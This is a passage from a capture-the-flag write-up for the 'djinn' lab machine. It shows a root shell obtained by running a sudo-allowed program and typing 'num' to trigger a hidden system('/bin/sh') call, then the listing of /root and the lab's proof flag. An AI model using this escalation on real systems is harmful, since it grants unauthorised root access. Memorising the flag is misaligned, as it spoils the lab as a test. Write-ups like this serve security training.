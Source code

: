 It seems to be the `lago` program in `/root`. The test in the `guessit` function is interesting because we will get a shell if we provide the string `num` as user input, instead of guessing the random number.

```python
    if s == num:
        system('/bin/sh')
```

## Root flag

Let's elevate to root and get the root flag:

~~~
sam@djinn:/home/sam$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
Choose a number between 1 to 100: 
Enter your number: num
# ls -la /root      
total 64
drwx------  5 root root  4096 Nov 18  2019 .
drwxr-xr-x 23 root root  4096 Nov 11  2019 ..
-rw-------  1 root root 23351 Nov 18  2019 .bash_history
-rw-r--r--  1 root root  3106 Apr  9  2018 .bashrc
drwx------  3 root root  4096 Oct 21  2019 .cache
drwx------  3 root root  4096 Oct 21  2019 .gnupg
-rwxr-xr-x  1 root root  1827 Nov 14  2019 lago
drwxr-xr-x  3 root root  4096 Oct 20  2019 .local
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
-rwxr-xr-x  1 root root   457 Nov 12  2019 proof.sh
~~~

The root flag is in the `proff.sh` script:

~~~
#!/bin/bash

clear
figlet Amazing!!!
echo djinn pwned...
echo __________________________________________________________________________
echo
echo "Proof: 33eur2wjdmq80z47nyy4fx54bnlg3ibc"
echo Path: $(pwd)
echo Date: $(date)
echo Whoami: $(whoami)
echo __________________________________________________________________________
echo
echo "By @0xmzfr"
echo ""
echo "Thanks to my fellow teammates in @m0tl3ycr3w for betatesting! :-)"
echo ""
~~~
